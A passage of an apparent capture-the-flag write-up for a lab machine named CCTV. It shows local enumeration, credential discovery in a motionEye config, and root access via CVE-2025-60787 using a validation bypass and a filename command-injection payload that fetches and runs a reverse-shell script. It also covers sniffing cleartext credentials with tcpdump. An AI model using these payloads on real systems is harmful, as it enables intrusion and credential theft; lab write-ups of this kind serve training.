motion:x:112:115::/var/lib/motion:/usr/sbin/nologin
_laurel:x:996:988::/var/log/laurel:/bin/false
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

| Username |
| -------- |
| sa_mark  |

```shell
mark@cctv:~$ sudo -l
[sudo] password for mark: 
Sorry, user mark may not run sudo on cctv.
```

```shell
mark@cctv:~$ ss -tulpn
Netid                                        State                                         Recv-Q                                        Send-Q                                                                               Local Address:Port                                                                                  Peer Address:Port                                        Process                                        
udp                                          UNCONN                                        0                                             0                                                                                       127.0.0.54:53                                                                                         0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                    127.0.0.53%lo:53                                                                                         0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:68                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             151                                                                                      127.0.0.1:3306                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:22                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:7999                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:1935                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                    127.0.0.54:53                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:8554                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             70                                                                                       127.0.0.1:33060                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                 127.0.0.53%lo:53                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:9081                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             128                                                                                      127.0.0.1:8765                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:8888                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:22                                                                                            [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                              *:80                                                                                               *:*
```

During enumeration we discovered a log file in `/opt/video/backups/` containing authentication logs for the `sa_mark` service account.

```shell
mark@cctv:/opt/video/backups$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Mar  7 19:45 .
drwxr-xr-x 3 root root 4096 Mar  2 09:49 ..
-rw-r--r-- 1 1005 1005 3204 Mar  7 19:46 server.log
```

The logs showed continuous authentication activity for `sa_mark` but did not reveal the password. 

```shell
mark@cctv:/opt/video/backups$ cat server.log 
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:22:11
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:22:44
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:23:15
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:24:14
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:25:07
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:25:42
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:26:40
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:27:32
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:28:08
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:28:54
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:29:43
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:30:22
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:31:04
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:32:04
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:32:47
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:33:41
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:34:37
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:35:37
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:36:28
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:37:23
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:38:14
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:39:00
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:39:56
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:40:35
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:41:29
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:42:26
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:43:01
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:43:31
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:44:23
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:44:58
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:45:53
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:46:28
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:47:20
```

## Port Forwarding

We noted that port `8765/TCP` was listening on localhost and decided to forward it for investigation.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh -L 8765:localhost:8765 mark@10.129.2.193
mark@10.129.2.193's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat  7 Mar 19:50:01 UTC 2026

  System load:           0.25
  Usage of /:            74.3% of 8.70GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             259
  Users logged in:       1
  IPv4 address for eth0: 10.129.2.193
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e6be

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

14 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Mar  7 19:42:46 2026 from 10.10.16.10
mark@cctv:~$
```

## Accessing motionEye

With port forwarding in place we accessed the service and discovered `motionEye` a video surveillance web interface.

- [http://localhost:8765/](http://localhost:8765/)



We found the credentials in the `motionEye` configuration file. What first looked like a hashed admin password, was the password itself which worked on the login page.

```shell
mark@cctv:~$ cat /etc/motioneye/motion.conf 
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 


setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```

| Username | Password                                 |
| -------- | ---------------------------------------- |
| admin    | 989c5a8ee87a0e9521ec81a79187d162109282f0 |

After logging in we identified the version as `motionEye 0.43.1b4`.





## Privilege Escalation to root (unintended)

### CVE-2025-60787: motionEye 0.43.1b4 Remote Code Execution (RCE)

Research revealed that `motionEye 0.43.1b4` was vulnerable to `CVE-2025-60787` allowing Remote Code Execution through client-side validation bypass.

- [https://www.exploit-db.com/exploits/52481](https://www.exploit-db.com/exploits/52481)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/files]
└─$ cat 52481.txt 
# Exploit Title: motionEye 0.43.1b4 - RCE 
# Exploit PoC: motionEye RCE via client-side validation bypass (safe PoC)
# Filename: motioneye_rce_poc_edb.txt
# Author: prabhatverma47
# Date tested: 2025-05-14 (original test); prepared for submission: 2025-10-11
# Affected Versions: motionEye <= 0.43.1b4
# Tested on: Debian host running Docker; motionEye image ghcr.io/motioneye-project/motioneye:edge
# CVE(s) / References: MITRE/OSV advisories referenced: CVE-2025-60787 
#
# Short description:
# Client-side validation in motionEye's web UI can be bypassed via overriding the JS validation
# function. Arbitrary values (including shell interpolation syntax) can be saved into the
# motion config. When motion is restarted, the motion process interprets the config and
# can execute shell syntax embedded inside configuration values such as "image_file_name".
#
# Safe PoC: creates a harmless file /tmp/test inside container (non-destructive).
#
# Environment setup:
# 1) Start the motionEye docker image:
#    docker run -d --name motioneye -p 9999:8765 ghcr.io/motioneye-project/motioneye:edge
#
# 2) Verify version in logs:
#    docker logs motioneye | grep "motionEye server"
#    Expect: 0.43.1b4 (or <= 0.43.1b4 for vulnerable)
#
# 3) Access web UI:
#    Open http://127.0.0.1:9999
#    Login: admin (blank password in default/edge image)
#
# Reproduction (manual + safe PoC):
# A) Bypass client-side validation in browser console:
#    1) Open browser devtools on the dashboard (F12 / Ctrl+Shift+I).
#    2) In the Console tab paste and run:
#
#       configUiValid = function() { return true; };
#
#    This forces the UI validation function to always return true and allows any value
#    to be accepted by the UI forms.
#
# B) Safe payload (paste this into Settings → Still Images → Image File Name and Apply):
#    $(touch /tmp/test).%Y-%m-%d-%H-%M-%S
#
#    After applying, the PoC triggers creation of /tmp/test inside the motionEye container
#    (the "touch" is executed when motion re-reads the config / motionctl restarts).
#
# C) Verify from host:
#    docker exec -it motioneye ls -la /tmp | grep test
#
# Expected result:
#    /tmp/test exists (created with the permissions of the motion process).
#
# Notes / root cause:
# - UI stores un-sanitized values into camera-*.conf (e.g., picture_filename),
#   which are later parsed by motion and interpreted as filenames – shell meta is executed.
# - Fix: sanitize/whitelist filename characters (example sanitization provided in README).
#
# References:
# - Original PoC & writeup: https://github.com/prabhatverma47/motionEye-RCE-through-config-parameter
# - motionEye upstream: https://github.com/motioneye-project/motioneye
# - OSV/GHSA advisories referencing this issue (published May–Oct 2025)
# - NVD entries: CVE-2025-60787
```

To exploit this vulnerability we first bypassed the client-side validation in the browser console.

```shell
allow pasting
```

```shell
configUiValid = function() { return true; };
```



Then we prepared our payload to download and execute a reverse shell script.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
$(curl 10.10.16.10/x|sh).%Y-%m-%d-%H-%M-%S
```

According to the exploit documentation we needed to enter our payload click `Apply` and then `take a snapshot` to trigger execution.



The payload executed successfully granting us a root shell.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.2.193] 46184
bash: cannot set terminal process group (3845): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye#
```

## user.txt

```shell
root@cctv:/home/sa_mark# cat user.txt
cat user.txt
4c95bb67564e6c7ea40909a8132e5638
```

## root.txt

```shell
root@cctv:~# cat root.txt
cat root.txt
afa746b4750c5abc90c843134946ccd9
```

## Post Exploitation

During post-exploitation we explored the filesystem and found source code for `Docker` container applications in `/root/files/src/dockerbins/`.

```shell
root@cctv:~/files/src/dockerbins# ls
ls
client
client.c
clientv2.c
server
server.c
serverv2.c
```

```shell
root@cctv:~/files/src/dockerbins# cat client.c
cat client.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <arpa/inet.h>

#define SERVER_IP "172.25.0.10"
#define PORT 5000
#define USERNAME "sa_mark"
#define PASSWORD "X1l9fx1ZjS7RZb"

void send_command(const char *cmd) {
    int sock;
    struct sockaddr_in serv_addr;
    char buffer[1024];

    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("socket creation error");
        return;
    }

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(PORT);

    if (inet_pton(AF_INET, SERVER_IP, &serv_addr.sin_addr) <= 0) {
        perror("invalid address");
        close(sock);
        return;
    }

    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
        perror("connection failed");
        close(sock);
        return;
    }

    char message[256];
    snprintf(message, sizeof(message),
             "USERNAME=%s;PASSWORD=%s;CMD=%s",
             USERNAME, PASSWORD, cmd);

    send(sock, message, strlen(message), 0);

    int valread = read(sock, buffer, sizeof(buffer) - 1);
    if (valread > 0) {
        buffer[valread] = '\0';
        printf("Server: %s", buffer);
    }

    close(sock);
}

int main() {
    srand(time(NULL));

    const char *commands[] = {"status", "disk-info"};
    int num_commands = 2;

    while (1) {
        const char *cmd = commands[rand() % num_commands];
        printf("Sending command: %s\n", cmd);
        send_command(cmd);

        int wait = 30 + rand() % 31; // 30–60 seconds
        printf("\n", wait);
        sleep(wait);
    }

    return 0;
}
```

## Privilege Escalation to root (intended)

### Linux Capability Abuse to capture Network Traffic

The intended solution was probably noticing that there were docker container running like we saw when we checked the locally available open ports.

```shell
mark@cctv:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:e6:be brd ff:ff:ff:ff:ff:ff
    altname enp3s0
    altname ens160
    inet 10.129.2.193/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 3540sec preferred_lft 3540sec
    inet6 dead:beef::250:56ff:fe94:e6be/64 scope global dynamic mngtmpaddr 
       valid_lft 86394sec preferred_lft 14394sec
    inet6 fe80::250:56ff:fe94:e6be/64 scope link 
       valid_lft forever preferred_lft forever
3: br-1b6b4b93c636: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 92:4e:a5:39:56:f4 brd ff:ff:ff:ff:ff:ff
    inet 172.25.0.1/16 brd 172.25.255.255 scope global br-1b6b4b93c636
       valid_lft forever preferred_lft forever
    inet6 fe80::904e:a5ff:fe39:56f4/64 scope link 
       valid_lft forever preferred_lft forever
4: br-3e74116c4022: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 2e:96:d1:22:3e:b0 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.1/16 brd 172.18.255.255 scope global br-3e74116c4022
       valid_lft forever preferred_lft forever
    inet6 fe80::2c96:d1ff:fe22:3eb0/64 scope link 
       valid_lft forever preferred_lft forever
5: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 92:9d:ab:82:78:bf brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
6: veth219572f@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-1b6b4b93c636 state UP group default 
    link/ether ba:14:8d:cb:2e:c8 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::b814:8dff:fecb:2ec8/64 scope link 
       valid_lft forever preferred_lft forever
7: veth0fb9184@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-3e74116c4022 state UP group default 
    link/ether ae:53:5e:f7:a0:8c brd ff:ff:ff:ff:ff:ff link-netnsid 1
    inet6 fe80::ac53:5eff:fef7:a08c/64 scope link 
       valid_lft forever preferred_lft forever
8: veth6351608@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-1b6b4b93c636 state UP group default 
    link/ether a6:1e:b0:07:95:1d brd ff:ff:ff:ff:ff:ff link-netnsid 2
    inet6 fe80::a41e:b0ff:fe07:951d/64 scope link 
       valid_lft forever preferred_lft forever
9: vethe4f965a@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-3e74116c4022 state UP group default 
    link/ether 66:62:49:4b:ef:91 brd ff:ff:ff:ff:ff:ff link-netnsid 3
    inet6 fe80::6462:49ff:fe4b:ef91/64 scope link 
       valid_lft forever preferred_lft forever
```

The `logfile` we found earlier was probably a pointer into the right direction. So we checked the capabilities on `tcpdump` to find a way to capture potential network traffic.

```shell
mark@cctv:~$ getcap /usr/bin/tcpdump
/usr/bin/tcpdump cap_net_raw=eip
```

To catch as much traffic as we could we pointed `tcpdump` to `172.25.0.0/24` and let it listen on `any` interface.

```shell
mark@cctv:~$ /usr/bin/tcpdump -i any net 172.25.0.0/24 -w capture.pcap
tcpdump: data link type LINUX_SLL2
tcpdump: listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
^C28 packets captured
29 packets received by filter
0 packets dropped by kernel
```

After we downloaded the `capture.pcap` and opened it in `Wireshark`, we found the `cleartext password` of `sa_mark`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/CCTV/files]
└─$ scp -P 22 mark@10.129.2.193:/home/mark/capture.pcap .                       
mark@10.129.2.193's password: 
capture.pcap                                                                                                                                                                                                                                                                                                                                                                                            100% 2496    53.5KB/s   00:00
```



| Username | Password       |
| -------- | -------------- |
| sa_mark  | X1l9fx1ZjS7RZb |

With the `sa_mark` credentials we could authenticate to the system. While this account did not provide direct root access we noticed that the `/etc/motioneye/motion.conf` file was world-readable which should not be the case. This file contained the same admin password hash we found earlier allowing us to follow the same `CVE-2025-60787` exploitation path to achieve root access.